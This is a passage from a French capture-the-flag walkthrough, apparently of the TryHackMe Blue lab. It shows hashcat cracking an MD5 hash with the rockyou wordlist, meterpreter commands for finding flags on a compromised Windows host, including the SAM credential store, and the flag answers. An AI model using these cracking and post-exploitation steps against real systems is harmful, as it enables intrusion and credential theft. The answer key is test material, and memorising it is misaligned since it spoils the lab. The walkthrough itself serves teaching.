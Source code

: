 

https://hashcat.net/hashcat/

```
hashcat64.exe -m 0 jon.hash c:\tools\wordlits\rockyou.txt
```

> Réponse: **alqfna22**

# [Task 5] Find flags! 

## #1 Flag1? 

**Tips**: Can you C it?

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > dir
```

```
meterpreter > cat flag1.txt
```

> Réponse: **access_the_machine_**

## #2 Flag2?

**Tips**: I wish I wrote down where I kept my password. Luckily it's still stored here on Windows.

https://www.google.com/search?q=where+windows+store+passwords

> All local user account passwords are stored inside windows. They are located inside C:\windows\system32\config\SAM

```
meterpreter > cd /Windows/system32/config
meterpreter > dir
```

```
meterpreter > cat flag2.txt
```

> Réponse: **sam_database_elevated_access**

## #3 flag3?

**Tips**: You'll need to have elevated privileges to access this flag. 

```
meterpreter > search -f flag*.txt
```


```
meterpreter > cat c:/Users/Jon/Documents/flag3.txt
```

> Réponse: **admin_documents_can_be_valuable**